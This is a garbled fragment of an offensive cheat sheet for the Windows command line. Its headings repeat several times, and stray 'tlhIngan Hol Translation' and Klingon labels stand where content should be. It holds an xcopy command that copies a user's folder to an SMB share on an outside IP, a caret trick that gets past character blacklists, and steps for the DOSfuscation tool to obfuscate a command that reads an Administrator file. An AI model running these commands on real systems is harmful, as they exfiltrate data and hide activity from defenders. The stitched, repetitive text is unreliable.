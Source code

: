 ```bash

#Recursive copy to smb
xcopy /hievry C:\Users\security\.yawcam \\10.10.14.13\name\win

#exe2bat to transform exe file in bat file

#ADS
dir /r #Detect ADS
more file.txt:ads.txt #read ADS
powershell (Get-Content file.txt -Stream ads.txt)

# Get error messages from code
net helpmsg 32 #32 is the code in that case
```
### Bypass Char Blacklisting

#### tlhIngan Hol Translation:

### Bypass Char Blacklisting

#### tlhIngan Hol Translation:

### Bypass Char Blacklisting

#### tlhIngan Hol Translation:

### Bypass Char Blacklisting

#### tlhIngan Hol Translation:
```bash
echo %HOMEPATH:~6,-11%   #\
who^ami   #whoami
```
### DOSfuscation

Generates an obfuscated CMD line

### DOSfuscation

**QapHa'moHwI'**

Generates an obfuscated CMD line
```powershell
git clone https://github.com/danielbohannon/Invoke-DOSfuscation.git
cd Invoke-DOSfuscation
Import-Module .\Invoke-DOSfuscation.psd1
Invoke-DOSfuscation
help
SET COMMAND type C:\Users\Administrator\Desktop\flag.txt
encoding
```
### Listen address ACLs
